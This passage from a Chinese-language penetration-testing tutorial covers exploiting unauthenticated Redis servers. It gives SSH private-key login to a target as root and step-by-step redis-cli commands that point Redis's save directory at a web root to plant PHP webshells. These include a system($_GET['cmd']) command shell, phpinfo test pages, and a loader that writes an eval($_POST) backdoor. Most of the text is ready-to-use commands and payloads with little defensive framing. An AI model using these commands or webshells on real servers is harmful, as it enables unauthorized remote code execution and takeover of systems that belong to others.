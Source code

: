 在攻击机上使用 ssh 免密登录靶机：`ssh -i id_rsa root@192.168.0.104`
利用私钥成功登录 redis 服务器！！！


**如果权限不够**，则不能指定到如 `/etc/.ssh/`，`/root/.ssh/` 目录。
```
root@kali:~#redis-cli-h 219.153.49.228-p 48055
219.153.49.228:48055>config setdir/root/.ssh/
(error） ERR Changing directory: Permission denied
219.153.49.228:48055>
```



### 利用 redis 写 webshell
我们可以将 dir 设置为一个目录 a，而 dbfilename 为文件名 b，再执行 save 或 bgsave，则我们就可以写入一个路径为 a/b 的任意文件。

利用前提：
> 1.靶机 redis 链接未授权，在攻击机上能用 redis-cli （不需登陆验证）
> 2.开了 web 服务器，并且知道路径（如利用 phpinfo，或者错误爆路经），还需要具有文件读写增删改查权限

通过 Redis 未授权访问漏洞，向 Redis 中写入恶意代码，然后将其保存到 Web 服务器的可执行目录中。
```sh
redis-cli -h <redis_ip> -p <redis_port>
config set dir /var/www/html
config set dbfilename shell.php
set webshell "<?php system($_GET['cmd']); ?>"
save
```
这样做会在 `/var/www/html` 目录下创建一个 `shell.php` 文件，攻击者可以通过访问 `http://<server_ip>/shell.php?cmd=<command>` 来执行任意命令。


把 shell 写入/home/bmjoker/目录下：
```mysql
192.168.0.104:6379>
192.168.0.104:6379> config set dir /home/bmjoker
OK
192.168.0.104:6379> config set dbfilename redis.php
OK
192.168.0.104:6379> set webshell "<?php phpinfo(); ?>"
OK
192.168.0.104:6379>save
OK
192.168.0.104:6379>
```
第三步写入 webshell 的时候，可以使用：
```
set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
```
`\r\n\r\n` 代表换行的意思，用 redis 写入的文件会自带一些版本信息，如果不换行可能会导致无法执行。

当数据库过大时，redis 写 shell 的小技巧：
```
<?php 
set_time_limit(0);
$fp=fopen('bmjoker.php','w');
fwrite($fp,'<?php @eval($_POST[\"bmjoker\"]);?>');
exit();
?>
```
